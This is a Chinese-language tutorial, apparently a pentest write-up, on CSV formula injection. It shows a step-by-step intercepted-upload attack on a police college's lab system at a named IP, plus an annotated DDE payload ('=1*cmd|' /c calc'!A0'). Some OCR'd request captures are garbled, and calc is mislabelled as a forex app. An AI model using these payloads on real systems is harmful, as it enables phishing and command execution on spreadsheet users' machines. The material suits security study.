








命令：

    - 钓鱼或者访问恶意网站

=HYPERLINK（"http://baidu.com","test")  

test为显示的名字

<!-- 这是一张图片，ocr 内容为：HYPERLINK("HTTP://BAIDU.COM","TEST") F G TEST -->

可链接暗点，跳转到“正常”界面，实则后台监视。

操作手册：

1.编辑好**.csv文件后

2.上传抓包

<!-- 这是一张图片，ocr 内容为：交通事故现场微量物证分析虚拟 浙江警察军院 机构管理 首页 退出 仿真实验 ZHHANG POLICE COLABGE 用户管理 导出 导入学生信息 机构 非机构用户 真实姓名 操作 角色类型 账号 状态 浙江警察学院-交通管理工程系 新建机构 +19交通二 +19交通 +19交通二 点击上传 +19交通二 请选择包含学生信感DAT文件或CSV文件 +19交通二 +19交通三 19交通三 +19交通三 +19交通二 +19交通三 +19交通三 19交通三 +19交通三 19交通 -->

3.删除数据包内容

<!-- 这是一张图片，ocr 内容为：发送请求 历史 爆破示例 强制HTTPS 美化 构造清求 REQUEST 效据包扫描 热力1戏 16 17 -----WEBKITFORMBOUNDARYFQGVMJV4YGGEQT6E CONTENT-DISPOSITION:-FORM-DATA;-NAME-"618.CSV";--FLLENAME-"TEST.CSV" 18 19 CONTENT-TYPE:.TEXT/CSV 20 21 {UNQUOTE X\EX\0X\0X\EEX\0X\0X\EX\00X/EEX\EOX/EX/EX\IX/EX\IIX/EX\IX/EX\0) ALX0ALX08LXEALXETLXEA>1X08LXEELXFELXFF1X09/X0ELX06LX0ELX00LX00\X08\X08LX08LXE ALX0AX09X0AXEALXEALX60/X60/X00X00X01X01X60/X60/X80/X801X801X60)X80/X60)X10 XOOLXOOL 1CLXOOLXOO1X001XO1 XO01X6 IXFFAXFFAXFFAXFFAXFFAXFFAXFFAXFFAX X00\X00\X00\XFFXFFXFFXFF\XFF XFF LFF FFIXFFIXFFIXFFIXFFIXFFIXFFIXFFIXFFIXF FF\XFF&XFF\XFF&XFF\XFF\XFF\XFF\XF XFF\XFF\XFF\XFF\XFF)XFF)XFF)XFF FLXFF&XFF&XFFIXFFIXFF IXFF XFF XFFIXF IXFFIXFF1XFFIXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFX XFFLXFFIXF XFFIXFFIXFI XFFXFF XFF XFF XFF X 全部删除 ELXFFIXFFIXFFIXF FF\XFF1 FLXFFXFFIXFF FLXFFIXFFIXFFY LXFFAXFFIX LXFFLXFFLXFFYX FFIXFFAXFFAXF FIXFF\XFF\XF\XFF\XFF)XFF)XFF\XFF\XFF\XFF\XFF\XFF\XFF\XFF)XFF 1XF于\XFF\X千千\X千\X千千1X千千\X千千)X千千\X千千\XFF\X千千\X千千\X千千\X千千1X千千1X千千1X甲F\X千千\X千千\X千千\X千千\X千千\X千千\X千千\X千\X千 XFFXFFXFFIXFFLXFFLXFFLXFFLXFFLXFFXFFXFFLXFFXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFXFFLXFFLXFFLXFF FLXFFLXF\XF凡XF凡XF凡XFFLXFFLXFFLXFFLXFFLXFF\XFFLXFFLXFFLXFFLXFFLXF IXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFXFFXFFLXFFLXFFLXFFLXFFLXFFLXFFLXFFLXF XF\XFFXF\XF中XFF)XFF)XFF)XFF)XFF)XF\XF示XF示XFF1XFF1XFF)XFF)X -->

<!-- 这是一张图片，ocr 内容为：热加戏 REQUEST 构造酒求 美化 数据包扫描 80ELX008\X009\X00D/XBEAL X080)X004\X094(X90D\X00E\X004\XE09\X086\X080\X080\X60 4LX00X806(X008LX003\X089\X902/X00ALX008LX895(X084/X883\X801X801\X902/X902/X XEX10X10X0X00X0X10X10XLEX10X10XEEX10X00X00X10X18X18 X180X180X180X180X180X180X180X180X180X100X100X10X100X10X10X10X10X10X1 30/X9E\X9E/X9E/XBE/XGE/X9E/X9E/X9ELX9E/X9E/X9E/X9E/X9E/X9E/X9E/X9E/X9E/X9E/X99/X9E/X9 X8EX00X081X80X8ELX8EX8EX8EX8E1X801X00X88/X08LX0ELXEELXEEXEEXEEX081X081X08Y X001X091X091X091X001X001X001X091X091X081X091X001X001X001X091X091X09)X00) WEBKITFORMBOUNDARYFQG VMJV4YGEQT.6E 22 CONTENT-DISPOSITION:-FORM-DATA;NAME-"AGENCYAUTOID" 23 24 39 25 26 -----WEBKITFORMBOUNDARYFQGVMJV4YGEQT6E 27 CONTENT-DISPOSITION:-FORM-DATA;.NAME-"PROFILE" 28 29 TRUE -----WEBKITFORMBOUNDARYFQGVMJV4YGGEQT6E 30 CONTENT-DISPOSITION:FORM-DATA;NAME:"IMPORT USER" 31 32 33 -->

4.数据包内添加注入代码

<!-- 这是一张图片，ocr 内容为：热加载 美化 构造请求 REQUEST 数据包扫描 ACCEPT-ENCODING:-G2IP,-DEFLATE 12 ORIGIN:HTTP://119.23.40.38 13 14 SEC-CH-UA-PLATFORM:"LINUX" 15 CONTCNT-LCNGTH HAUTO:64710 上传的CSV文件 16 17 -----WEBKITFORMBOUNDARYFQGVMFV4YGGEQT6E FILENAME 18 CONTENT-DISPOSITION:FORM-DATA;NAME:"618.C9U 19 CONTENT-TYPE:-TEXT/CSV 下载CSV文件 20 HYPERLIWK("HTTP://BAIDU.COM","TEST") 21 时候的文件名 -----WEBKITFORMBOUNDARYFQGVMJV4YGGEQT6E 22 CONTENT-DISPOSITION:-FORM-DATA;NAME-"AGENCYAUTOID" 23 24 39 25 ------WEBKITFORMBOUNDARYFQGVMFV4YGGEQT6E 26 CONTENT-DISPOSITION:-FORM-DATA;NAME:"PROFILE" 27 28 29 TRUE 30 WEBKITFORMBOUNDARYFQR VMJV4YGEQTEGT6E CONTENT-DISPOSITION:-FORM-DATA;-NAME-"IMPORT_USER" 31 32 33 34 -----WEBKITFORMBOUNDARYFQGVMJV4YGGEQT6E 35 CONTENT-DISPOSITION:-FORM-DATA;NAME-"USERAUTOID" 36 37 1 -----WEBKITFORMBOUNDARYFOGVMIV4YGGEQT6E 38 39 CONTENT-DISPOSITION:FORM-DATA;NAME:"CSY MODE" -->

5.发包，在url中下载（url为图中圈出来的地址）

<!-- 这是一张图片，ocr 内容为：男 发送请求 强制HTTPS|历史爆破示例 生成 YAML 樱板 美化 详估 RESPONSES 关化Q 数据包扫描 344BYTES/193MS 构造请求 热加优 REQUEST 远流地址:119.23/40.38:80:响应时 HTTP/1.1.200-OK ACCEPT-ENCODING:GZIP,DEFLATE 2 SERVER:NGINX/1.20.1 ORIGIN:HTTP://119.23.40.38 [间:193MS;思耗时:245MS:URLATT 3 DATE:WED,19.JUN.2024-12:01:55GMT P//119.2340.38/司JCC/20VS.. SEC-CH-UA-PLATFORM:"LINUX" 4 CONTENT-LENGTH AMLO:64710 CONTENT-TYPE:APPLICATION/JSON CONNECTION:-KEEP-ALIVE ACCESS-CONTROL-ALLOW-0RIGIN:HTTP://119.23.40.38 6 -----WEBKITFORMBOUNDARYFQGVMJV4YGGEQT:6E CONTENT-DISPOSITION:-FORM-DATA;-NAME-"618.CSV";FILENAME二"O.CSY" VARY:ORIGIN 8 EXPIRES:WED,.19-JUN-2024.12:06:55GMT CONTENT-TYPE:.TEXT/CSV CACHE-CONTROL:-MAX-AGE-300 HYPERLINK("HTTP://BAIDU.COM","TEST") CONTCNT-LENGTH:344 -----WEBKITFORMBOUNDARYFQGVMJV4YGGEQT6E CONTENT-DISPOSITION:-FORM-DATA;NAME-"AGENCYAUTOID" "DATA":.I 39 ---WEBKITFORMBOUNDARYFOGVMJV4YGGEQT6E CREATETIME":":"2024-06-19-20:01:53.727000", CONTENT-DISPOSITION:-FORM-DATA;-NAME-"PROFILE" "FILENAME":"0.CSV". MSG":LIST.INDEX:OUT:OF-RANCE "ORIGIN CANNOT EDIT IN READ-ONLY EDITOR TRUE ----WEBKITFORMBOUNDARYFQPVMJV4YGEQT:6E STATUS ZIICXY 20VSZGNV/UPLOADS/O.CSY CONTENT-DISPOSITION:-FORM-DATA;-NAME-"IMPORT USER" UR1": ----WEBKITFORMBOUNDARYFOGVMIV4YGEQT6E MSG CONTENT-DISPOSITION:-FORM-DATA:NAME-"USERAUTOID" "STATUS":FALSE 1 ---WEBKITFORMBOUNDARYFOGVMIV4YGGEQT6E CONTENT-DISPOSITION:-FORM-DATA;NAME,"CSV MODE" -->

6.显示

<!-- 这是一张图片，ocr 内容为：TEST) B1 E B TP://BAIDU.COM HTTP TEST) -->

因为

<!-- 这是一张图片，ocr 内容为：HYPERLINK("HTTP://BAIDU.COM",TEST") -->

有长度限制，所以在表格中显现为两块儿内容

    - 弹计算机

=1*cmd|' /c calc'!A0

解释：

**1.=**

    - **符号**：=是电子表格应用程序中公式的开头，表示接下来是一个计算表达式或命令。
    - **功能**：这告诉电子表格应用程序去解析后面的内容，并尝试执行它。

**2.1***

    - **符号**：1*是一个简单的数学公式，这是数字 1 乘以后面的表达式。
    - **功能**：这部分通常使用混淆表达式，看起来像一个普通的数学计算，实际上是为了启动命令。

**3.cmd|**

    - **符号**：cmd|表示启动命令符提示（cmd.exe）并通过管道符|将后续的命令传递给其执行。
    - **功能**：在Windows系统中，cmd是命令提示程序，它可以执行一系列命令。通过使用|管道符，攻击者可以将命令嵌入到公式中。

**4.' /c calc'**

    - **符号**：' /c calc'是提交给命令提示符的参数。
    - **详细说明**：
        * **/c**：/c是cmd的一个参数，它表示命令提示符将紧随其后面的命令执行，然后终止。
        * **calc**：calc是命令的具体内容，该命令会打开Windows系统自带的外汇应用程序。
    - **功能**：这部分实际上是命令注入的核心部分，很简单让应用程序执行系统命令。

**5.!A0**

    - **符号**：!A0是引用表格中的单元格。
    - **功能**：这部分可能用于引导应用程序解析公式，或者确保公式的格式正确。但是，实际情况下，它可能并不参与命令的执行，只是用于保持公式格式的错误。

